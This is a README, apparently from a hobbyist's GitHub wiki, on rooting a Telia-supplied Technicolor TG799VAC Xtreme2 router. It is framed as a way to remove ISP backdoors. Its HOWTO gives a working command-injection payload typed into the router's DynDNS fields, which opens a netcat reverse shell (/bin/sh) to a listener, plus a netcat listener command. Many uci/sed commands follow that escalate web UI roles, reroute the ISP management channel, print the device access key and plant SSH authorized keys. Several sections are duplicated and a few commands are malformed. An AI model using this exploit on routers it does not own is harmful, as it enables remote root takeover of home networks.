



# README

   Alright guys, i have bricked my old TG799VAC-XTREME when i figured out how to generate the access key so I just got my new TG799 VAC Xtreme2 with version 17.2 Mint, 
   ofc i have hacked this one aswell since i DO not want backdoors in my network..

   I have not found any other tutorial how-to hack this version from technicolor in this way I have done it. Someone has to be the first on a new exploit and let everyone know what's really is an open door straight into your network and your digital life. This is 
   nothing people just should say things like "i do not care" cause this can really be abused if there is some blackhat hacker on the support or if someone just is curios about your life and has enough freetime . With TSHARK or WSHARK they can sniff ALL your 
traffic no matter what ppl say since the router is the last point in 'almost' all home-networks. I exposing Telia again cause i see this as a REAL threat to our privacy...I had never questioned this if the providers had been straight and honest about what they 
actually 
   have access to. I will expose every setting, every ip and every key i can found until they will remove the backdoors. Now im bored so let's start i really hate to write descs and the faster you get this information, the faster you can protect yourself from the 
backdoors. 

##### FIRST SOME RLY SCARRY SHIT THAT USERS HAS NO KNOWLEDGE ABOUT AT ALL!! 

###### The question is who has access to the logs from our router on the ip number you see in the picture below, why should they receive a lot of data from the router? They have gone so far so they storing logs when you start & restore the router, what are they doing with this data? This is really unpleasant and people really have no idea that things they do in their own home getting stored on a server in Stockholm / Telia. (whois the ip)

##### Do you look forward to upgrade your firmware without any third party software or without any backdoors from your internet provider? Great, i will show you how you will do this easier then ever..

###### You have to add our admin user to upgradefw role and after this has been done you will get access. I have added a preview below the commands where to upload your new firmware (THIS IS DANGEROUS - DONT PLAY WITH THIS IF YOU HAVE NO KNOWLEDGE ABOUT HOW THIS WORKS IT WILL PROBABLY BRICK YOUR DEVICE WITH WRONG FIRMWARE, PERMANENT!):

    uci add_list web.uidefault.upgradefw_role='admin'
    uci commit
    

##### Add your own user without any extra tools.

##### wuseman has 100% control over Telia and Superuser and is now added to telia ;) - (updated: 2018-09-15)

# HOWTO

##### Let us begin to hack for real now.. Set up a netcat listener on your machine, and adjust any firewall rules to allow an inbound connection:

    nc -lvvp [machine_port]

##### Go to the WAN Services and press SHOW ADVANCED. In username, password and domain field you need type the below command, after this is done just enable the dyndns. It wont matter wich hoster you choose just pick one, press save and just wait 4-5 seconds and you have just got full root access of your TG799VAC Xtreme 17.2 Mint, check preview video above if you do not understand.

    :::::::`nc [machine_IP] [machine_port] -e /bin/sh`

##### When you have successfully logged in, set a new root password, edit /etc/config/dropbear (THEY ARE USING 60022 AS DEFUALT PORT IN THIS VERSION NOT 22 AS BEFORE)

    passwd                                                                    # Set a new root password          
    sed -i "s/option enable '0'/option enable '1'/g" /etc/config/dropbear     # Enable dropbear for LAN 
    /etc/init.d/dropbear restart                                              # Restart dropbear
    exit                                                                      # Drop the netcat window and ssh into your router instead
    ssh -p 60022 root@192.168.1.1                                             # Login with the password you typed earlier.

##### Banner (DEFAULT)

##### WEBUI (DEFAULT)

##### When you have successfully hacked your router this is the result: 

##### Banner (AFTER)

##### WEBUI (LUCI - REALLY ADVANCED - HIGH RISK TO BRICK YOUR DEVICE - I BRICKED MY OLD)

##### This is how it can be if you will stay with Telia gui (Recommended):

##### Mount / as read and write

    mount -o remount,rw /

##### First of all we want to change telia > admin in all lp files.

    sed -i 's/telia/admin/' /www/docroot/modals/gateway-modal.lp
    sed -i 's/telia/admin/' /www/docroot/modals/internet-modal.lp 
    sed -i 's/telia/admin/' /www/docroot/modals/mmpbx-global-modal.lp 
    

### IT IS VERY IMPORTANT TO ADD BELOW COMMANDS IN SAME ORDER I LISTED THEM. 
###### IF YOU ADD THEM IN WRONG ORDER YOU GET A ERROR MESSAGE: 'uci: Invalid Argument'

##### Rules

     add_list web.uidefault.upgradefw_role='admin'
     set web.natalghelpermodal=rule
     set web.relaymodal=rule
     set web.systemmodal=rule
     set web.iproutesmodal=rule
     set web.mmpbxinoutgoingmapmodal=rule
     set web.ltedoctor=rule
     set web.ltemodal=rule
     set web.lteprofiles=rule
     set web.ltesim=rule
     set web.ltesms=rule
     set web.logconnections=rule
     set web.logviewer=rule
     set web.logviewer.roles=rule
     set tod.global.enabled='1'
     set mobiled.globals.enabled='1'
     set mobiled.device_defaults.enabled='1'
     set web.uidefault.nsplink='https://sendit.nu'
     commit; /etc/init.d/nginx restart

##### Ruleset

     add_list web.ruleset_main.rules=xdsllowmodal
     add_list web.ruleset_main.rules=systemmodal
     add_list web.ruleset_main.rules=natalghelpermodal
     add_list web.ruleset_main.rules=diagnostics
     add_list web.ruleset_main.rules=basicviewaccesscodemodal
     add_list web.ruleset_main.rules=basicviewwifiguestmodal
     add_list web.ruleset_main.rules=basicviewwifiguest5GHzmodal
     add_list web.ruleset_main.rules=basicviewwifipskmodal
     add_list web.ruleset_main.rules=basicviewwifipsk5GHzmodal
     add_list web.ruleset_main.rules=basicviewwifissidmodal
     add_list web.ruleset_main.rules=basicviewwifissid5GHzmodal
     add_list web.ruleset_main.rules=relaymodal
     add_list web.ruleset_main.rules=iproutesmodal
     add_list web.ruleset_main.rules=mmpbxinoutgoingmapmodal
     add_list web.ruleset_main.rules=mmpbxstatisticsmodal
     commit; /etc/init.d/nginx restart

##### Target ( You will get even more stuff in webinterface after you run below commands )

     set web.mmpbxinoutgoingmapmodal.target='/modals/mmpbx-inoutgoingmap-modal.lp'
     set web.iproutesmodal.target='/modals/iproutes-modal.lp'
     set web.systemmodal.target='/modals/system-modal.lp'
     set web.relaymodal.target='/modals/relay-modal.lp'
     set web.natalghelpermodal.target='/modals/nat-alg-helper-modal.lp'
     set web.diagnosticstcpdumpmodal.target='/modals/diagnostics-tcpdump-modal.lp'
     set web.natalghelpermodal.target='/modals/basicview-accesscode-modal.lp'
     set web.natalghelpermodal.target='/modals/basicview-wifiguest-modal.lp'
     set web.natalghelpermodal.target='/modals/basicview-wifiguest5GHz-modal.lp'
     set web.natalghelpermodal.target='/modals/basicview-wifipsk-modal.lp'
     set web.natalghelpermodal.target='/modals/basicview-wifipsk5GHz-modal.lp'
     set web.natalghelpermodal.target='/modals/basicview-wifissid-modal.lp'
     set web.natalghelpermodal.target='/modals/basicview-wifissid5GHz-modal.lp'
     set web.ltemodal.target='/modals/lte-modal.lp'
     set web.ltedoctor.target='/modals/lte-doctor.lp'
     set web.lteprofiles.target='/modals/lte-profiles.lp'
     set web.logconnections.target='/modals/log-connections-modal.lp'
     set web.logviewer.target='/modals/logviewer-modal.lp'
     set web.ltesms.target='/modals/lte-sms.lp'
     set web.ltesim.target='/modals/lte-sim.lp'
     set web.xdsllowmodal.target='/modals/xdsl-low-modal.lp'
     commit; /etc/init.d/nginx restart

##### Roles ( You will see new stuff on webinterface after you run below commands)

     add_list web.assistancemodal.roles='admin' 
     add_list web.usermgrmodal.roles='admin'
     add_list web.cwmpconf.roles='admin'
     add_list web.todmodal.roles='admin'
     add_list web.iproutesmodal.roles='admin'
     add_list web.natalghelper.roles='admin'
     add_list web.mmpbxglobalmodal.roles='admin' 
     add_list web.mmpbxprofilemodal.roles='admin' 
     add_list web.parentalblock.roles=admin
     add_list web.mmpbxinoutgoingmapmodal.roles='admin'
     add_list web.systemmodal.roles='admin'
     add_list web.relaymodal.roles='admin'
     add_list web.natalghelpermodal.roles='admin'
     add_list web.diagnosticstcpdumpmodal.roles='admin'
     add_list web.ltedoctor.roles="admin"
     add_list web.ltemodal.roles="admin"
     add_list web.lteprofiles.roles="admin"
     add_list web.xdsllowmodal.roles='admin'
     add_list web.ltesim.roles="admin"
     add_list web.logconnections.roles="admin"
     add_list web.logviewer.roles="admin"
     add_list web.logconnections.roles="admin"
     add_list web.home.roles='admin'
     add_list web.ltesms.roles='admin'
     add_list web.logviewer.roles="admin"
     commit; /etc/init.d/nginx restart

##### Misc

    uci del_list mwan.acsreffileserv.policy='mgmt_only'
    uci del_list mwan.acsrefloadb.policy='mgmt_only'
    uci del_list mwan.acsprodloadb.policy='mgmt_only'
    uci add_list mwan.acsreffileserv.policy='mgmt'
    uci add_list mwan.acsrefloadb.policy='mgmt'
    uci add_list mwan.acsprodloadb.policy='mgmt'
    uci add_list mwan.acsreffileserv.policy='wan'
    uci add_list mwan.acsrefloadb.policy='wan'
    uci add_list mwan.acsprodloadb.policy='wan'
    uci add_list mwan.acsreffileserv.policy='lan'
    uci add_list mwan.acsrefloadb.policy='lan'
    uci add_list mwan.acsprodloadb.policy='lan'
    uci del_list mwan.acsreffileserv.dest_ip='10.54.3.204/32'
    uci del_list mwan.acsrefloadb.dest_ip='10.54.3.210/32'
    uci add_list mwan.acsprodloadb.dest_ip='xxx.xxx.xxx.0/24'
    uci add_list mwan.acsprodloadb.dest_ip='xxx.xxx.xxx.0/24'
    uci add_list mwan.acsprodloadb.dest_ip='192.168.1.0/24'
    uci add_list mwan.acsprodloadb.dest_ip='192.168.1.0/24'
    uci del_list mwan.acsreffileserv.dest_ip='10.54.3.204/32'
    uci add_list mwan.acsreffileserv.dest_ip='xxx.xxx.xxx.0/24'
    uci add_list mwan.acsreffileserv.dest_ip='192.168.1.0/24'
    uci commit; /etc/init.d/nginx restart

##### All kind of stuff for webgui (Nothing special, edit them after your needs)

    sed -i 's/The standard Username is 'Administrator'."/wuseman/g' /www/docroot/login.lp
    sed -i 's/Technicolor/This router has been hacked by wuseman/g' /www/docroot/*.lp
    sed -i 's/Technicolor/This router has been hacked by wuseman/g' /www/docroot/*.lp

##### EDIT YOUR CONFIG FILES MANUALLY, HERE IS SOME EXAMPLES

###### DHCP

    cat >> /etc/config/dhcp
    # WUSEMAN WAS HERE
    # EDITED: 2018-08-14

    config host
    option name 'hostname'
    option mac 'macaddr'
    option ip 'localip'

###### FIREWALL

    cat >> /etc/config/firewall 

    # WUSEMAN WAS HERE
    # EDITED: 2018-08-14

    config userredirect 'userredirectXXDD'
    option dest_port '<PORTNUMBER>'
    option dest 'lan'
    option src 'wan'
    list proto '<tcp>/<udp>/<tcpudp>'
    option enabled '<1>/<0>'
    option name 'CUSTOMNAMEINWEBINTERFACE'
    option src_dport '<PORTNUMBER>'
    option family '<ipv4>/<ipv6>'
    option target 'DNAT'
    option dest_ip '<lanip>'

##### Wanna have some fun? Edit all false to true and vice versa ;p 
###### DO THIS ON YOUR OWN RISK ( YOU HAVE BEEN WARNED )

    sed -i 's/false/true/g' /www/cards/*.lp
    sed -i 's/false/true/g' /www/lua/*.lua
    sed -i 's/false/true/g' /www/modals/*.lp
    sed -i 's/false/true/g' /www/snippets/*.lp
    sed -i 's/false/true/g' /www/docroot/*.lp
    sed -i 's/false/true/g' /www/docroot/
    sed -i 's/false/true/g' /www/docroot/ajax/*.lua

##### Add admin to everything and remove supuser and admin
###### DO THIS ON YOUR OWN RISK ( YOU HAVE BEEN WARNED )
    
    sed -i 's/false/true/g' /www/cards/010_lte.lp
    sed -i 's/telia/admin/' /www/docroot/modals/gateway-modal.lp
    sed -i 's/telia/admin/' /www/docroot/modals/internet-modal.lp 
    sed -i 's/telia/admin/' /www/docroot/modals/mmpbx-global-modal.lp 
    sed -i 's/superuser/admin/' /www/docroot/modals/gateway-modal.lp
    sed -i 's/superuser/admin/' /www/docroot/modals/internet-modal.lp 
    sed -i 's/superuser/admin/' /www/docroot/modals/mmpbx-global-modal.lp 
    uci commit

##### List all URLs for your firmware that can be downloaded:

     strings /etc/cwmpd.db 

    SQLite format 3
    tabletidkvtidkv
    CREATE TABLE tidkv (  type TEXT NOT NULL,  id TEXT NOT NULL,  key TEXT NOT NULL,  value TEXT,  PRIMARY KEY (type, id, key)))
    indexsqlite_autoindex_tidkv_1tidkv
    transferPassword5
    transfer Username
    Stransfer URLhttp://192.168.21.52:7547/ACS-server
    5transferaStartTime2018-08-19T15:20:13Z
    transfera FaultStringcomplete
    transfera FaultCode0M_
    M%5transfera CompleteTime2018-08-19T15:19:57Z
    'transfera TimeStamp244,9XXXXXX
    transfera DelaySeconds3
    transfera Password
    transfera Username
    runtimevarParameterKey#
    runtimevarConfigurationVersionD
    %_runtimevarBootStrappedhttps://acs.telia.com:7575/ACS-server/ACS-
    +/VersionsSoftwareVersion16.2.XXXXXX
    transfer FaultString
    transfer FaultCode
    transfer TimeSt6
    transfera UsernameU
    transfera URLT7
    transfera TimeStampX
    transfera SubStatec
    transfera Stateb7
    transfera StartTimed
    transfera PasswordV
    
##### OTHER EXAMPLES JUST FOR FUN    
    
##### Changing max sync speed

    uci set xdsl.dsl0.maxaggrdatarate='200000' # 16000 default
    uci set xdsl.dsl0.maxdsdatarate='140000'   # 11000 default
    uci set xdsl.dsl0.maxusdatarate='60000'    # 40000 default
   
##### Enable/Disable dnsmasq:
 
    uci show dhcp.lan.ignore='1'

##### Enable/Disable network time server

    uci set system.ntp.enable_server='1'
     
##### Using bridge mode with a dedicated PPPoE ethernet port:
  
    uci set network.lan.dns='8.8.8.8'
    uci set network.lan.gateway='192.168.0.254'
    uci set mmpbxrvsipnet.sip_net.interface='lan'
    uci set mmpbxrvsipnet.sip_net.interface6='lan6'
    uci commit

##### You can check the current running dns with:

    cat /etc/resolv.conf
    
##### Edit nsplink to something else (where you get redirected when you click on the logo at top) 

    uci set web.uidefault.nsplink='https://sendit.nu'

##### This will show all ip connected to your router atm..

    netstat -lantp | grep ESTABLISHED |awk '{print $5}' | awk -F: '{print $1}' | sort -u  
     
##### Enable or Disable WWAN support (mobiled)

     uci set mobiled.globals.enabled='0'
     uci set mobiled.device_defaults.enabled='0'
     
##### Enable or Disable Content Sharing (Samba / DNLA)

     uci set samba.samba.enabled='1'
     uci set dlnad.config.enabled='1'

##### To view currently dhcp leases:

     cat /tmp/dhcp.leases
     1534969000 macaddr lanip machine macaddr
     
##### To view arp log
 
     cat /tmp/arp.log
     root@OpenWrt:/tmp# cat /tmp/arp.log 
     IP address       HW type     Flags       HW address            Mask     Device
     lanip            0x1         0x2         X0:X0:X0:X0:X0:X0      *        br-lan
     mgmt_ip          0x1         0x2         X0:X0:X0:X0:X0:X0     *        vlan_mgmt
     wanip            0x1         0x2         X0:X0:X0:X0:X0:X0     *        eth4
     
##### List mac-addresses.

    ifconfig -a  | sed '/eth\|wl/!d;s/ Link.*HWaddr//
    eth0      X0:X0:X0:X0:X0:X0  
    eth1      X0:X0:X0:X0:X0:X0 
    eth2      X0:X0:X0:X0:X0:X0  
    eth3      X0:X0:X0:X0:X0:X0 
    eth4      X0:X0:X0:X0:X0:X0 
    eth5      X0:X0:X0:X0:X0:X0 
    vlan_eth0 X0:X0:X0:X0:X0:X0 
    vlan_eth1 X0:X0:X0:X0:X0:X0  
    vlan_eth2 X0:X0:X0:X0:X0:X0   
    vlan_eth3 X0:X0:X0:X0:X0:X0  
    vlan_eth5 X0:X0:X0:X0:X0:X0 
    wl0       X0:X0:X0:X0:X0:X0 
    wl0_1     X0:X0:X0:X0:X0:X0   
    wl0_2     X0:X0:X0:X0:X0:X0  
   
##### Disable Monitor Of Traffic

     uci set system.@trafficmon[0].interface=''
     uci set system.@trafficmon[0].minute=''
     uci set system.@trafficmon[1].interface=''
     uci set system.@trafficmon[1].minute=''
     uci set system.@trafficmon[2].interface=''
     uci set system.@trafficmon[2].minute=''
     uci set system.@trafficmon[3]=trafficmon
     uci set system.@trafficmon[3].interface=''
     uci set system.@trafficmon[3].minute=''

##### Disable Time of Day ACL rules

     uci set tod.global.enabled='0'
      
##### For login with debug mode enabled, then please go to (Proably not possible but it is to try):
     
     http://192.168.1.1/?debug=1
     
##### Disable so your router wont restart if there is an segmentation fault in a user space program.

    uci set system.@coredump[0].reboot='0'
    uci commit system

##### Just type below command for print the accesskey. (More info will get added here soon how this is generated)

    sed -e 's/^\(.\{8\}\).*/\1/' /proc/rip/0124

##### You can check the current running dns with

    cat /etc/resolv.conf
    
##### Edit nsplink to something else (where you get redirected when you click on the logo at top) 

    uci set web.uidefault.nsplink='https://sendit.nu'

##### This will show all traffic on your router:

    netstat -tulnp 

##### This will show all ip numbers connected to your router atm..

    netstat -lantp | grep ESTABLISHED |awk '{print $5}' | awk -F: '{print $1}' | sort -u  
  
##### Enable or Disable WWAN support (mobiled)

     uci set mobiled.globals.enabled='1'
     uci set mobiled.device_defaults.enabled='1'
    
##### Enable or Disable Content Sharing (Samba / DNLA)

     uci set samba.samba.enabled='1'
     uci set dlnad.config.enabled='1'
     
##### To view currently dhcp leases:

     cat /tmp/dhcp.leases
     1534969000 macaddr lanip machine macaddr
     
##### To view arp log
 
     cat /tmp/arp.log
     root@OpenWrt:/tmp# cat /tmp/arp.log 
     IP address       HW type     Flags       HW address            Mask     Device
     lanip            0x1         0x2         X0:X0:X0:X0:X0:X0      *        br-lan
     mgmt_ip          0x1         0x2         X0:X0:X0:X0:X0:X0     *        vlan_mgmt
     wanip            0x1         0x2         X0:X0:X0:X0:X0:X0     *        eth4
     
##### List mac-addr.

    ifconfig -a  | sed '/eth\|wl/!d;s/ Link.*HWaddr//
    eth0      X0:X0:X0:X0:X0:X0  
    eth1      X0:X0:X0:X0:X0:X0 
    eth2      X0:X0:X0:X0:X0:X0  
    eth3      X0:X0:X0:X0:X0:X0 
    eth4      X0:X0:X0:X0:X0:X0 
    eth5      X0:X0:X0:X0:X0:X0 
    vlan_eth0 X0:X0:X0:X0:X0:X0 
    vlan_eth1 X0:X0:X0:X0:X0:X0  
    vlan_eth2 X0:X0:X0:X0:X0:X0   
    vlan_eth3 X0:X0:X0:X0:X0:X0  
    vlan_eth5 X0:X0:X0:X0:X0:X0 
    wl0       X0:X0:X0:X0:X0:X0 
    wl0_1     X0:X0:X0:X0:X0:X0   
    wl0_2     X0:X0:X0:X0:X0:X0  
   
##### Disable Monitor Of Traffic

     uci set system.@trafficmon[0].interface=''
     uci set system.@trafficmon[0].minute=''
     uci set system.@trafficmon[1].interface=''
     uci set system.@trafficmon[1].minute=''
     uci set system.@trafficmon[2].interface=''
     uci set system.@trafficmon[2].minute=''
     uci set system.@trafficmon[3]=trafficmon
     uci set system.@trafficmon[3].interface=''
     uci set system.@trafficmon[3].minute=''

##### Disable Time of Day ACL rules

     uci set tod.global.enabled='0'
     
##### For login with debug mode enabled, then please go to:
     
     http://192.168.1.1/?debug=1
      
#### Login to ssh without any password:

##### Generate the Key Pair on your pc (not router):

     ssh-keygen -t dsa

##### Next copy the public key with SCP to OpenWrt:
   
    scp ~/.ssh/id_dsa.pub root@192.168.1.1:/tmp

##### Add the public key to the authorized_keys from ~/.ssh/id_dsa.pub

     cd /etc/dropbear
     cat /tmp/id_*.pub >> authorized_keys
     chmod 0600 authorized_keys
     exit
  
##### Disconnect from your router and type following on your pc:
   
     ssh root@192.168.1.1 "tee -a /etc/dropbear/authorized_keys" < ~/.ssh/id_rsa.pub
     
##### Connect to your router without any password.
   
     ssh root@192.168.1.1
 
### Have fun and be careful with other settings not provided by me! ;)

#### THIS WIKI IS LICENSED UNDER MIT
#### AUTHOR/OWNER OF THIS WIKI IS wuseman

# CONTACT

     If you have problems, questions, ideas or suggestions please contact
     us by posting to info@sendit.nu

# WEB SITE

     Visit our homepage for the latest info and updated tools

     https://sendit.nu & https://github.com/wuseman/

### END!

